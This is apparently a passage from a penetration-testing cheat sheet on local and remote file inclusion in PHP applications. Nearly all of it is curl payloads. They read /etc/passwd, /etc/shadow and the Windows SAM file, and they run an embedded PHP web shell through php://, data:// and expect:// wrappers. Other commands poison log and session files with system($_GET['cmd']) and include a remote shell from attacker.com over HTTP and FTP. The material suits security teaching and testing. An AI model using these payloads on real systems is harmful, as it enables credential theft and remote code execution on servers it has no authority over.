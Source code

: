 ## Local File Inclusion (LFI) and Remote File Inclusion (RFI)

### **File Inclusion Vulnerability Testing**

**What file inclusion vulnerabilities are:** Flaws that allow including arbitrary files in web application execution, leading to information disclosure or code execution.

**Why file inclusion is critical:** Can lead to source code disclosure, system file access, and remote code execution. Common in PHP applications.

```bash
# Basic Local File Inclusion (LFI) testing
curl "http://target.com/page.php?file=../../../etc/passwd"
curl "http://target.com/page.php?file=../../../etc/shadow"
curl "http://target.com/page.php?file=../../../var/log/apache2/access.log"
# Path traversal to access system files
# Common targets: /etc/passwd, /etc/shadow, log files

# Windows LFI testing
curl "http://target.com/page.php?file=../../../windows/system32/drivers/etc/hosts"
curl "http://target.com/page.php?file=../../../windows/system32/config/sam"
# Windows system files
# Different path structure and file locations

# PHP wrapper exploitation
curl "http://target.com/page.php?file=php://filter/convert.base64-encode/resource=index.php"
# Base64 encodes PHP source code
# Reveals application source code

curl "http://target.com/page.php?file=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ID8%2B"
# Data wrapper for code execution
# Base64 encoded: <?php system($_GET['cmd']); ?>

curl "http://target.com/page.php?file=expect://whoami"
# Expect wrapper for command execution
# Direct command execution if enabled

# Log poisoning for RCE
curl -H "User-Agent: <?php system(\$_GET['cmd']); ?>" http://target.com/
curl "http://target.com/page.php?file=../../../var/log/apache2/access.log&cmd=whoami"
# Injects PHP code into log file
# Executes code when log is included

# Session file poisoning
curl -b "PHPSESSID=malicious" -X POST -d "data=<?php system(\$_GET['cmd']); ?>" http://target.com/session.php
curl "http://target.com/page.php?file=../../../var/lib/php/sessions/sess_malicious&cmd=whoami"
# Injects code into session file
# Executes when session file is included

# Remote File Inclusion (RFI) testing
curl "http://target.com/page.php?file=http://attacker.com/shell.txt"
# Includes remote file containing malicious code
# shell.txt contains: <?php system($_GET['cmd']); ?>

# FTP-based RFI
curl "http://target.com/page.php?file=ftp://attacker.com/shell.php"
# Alternative protocol for RFI
# May bypass HTTP-based filtering

# Filter bypass techniques
curl "http://target.com/page.php?file=....//....//....//etc/passwd"        # Double encoding
```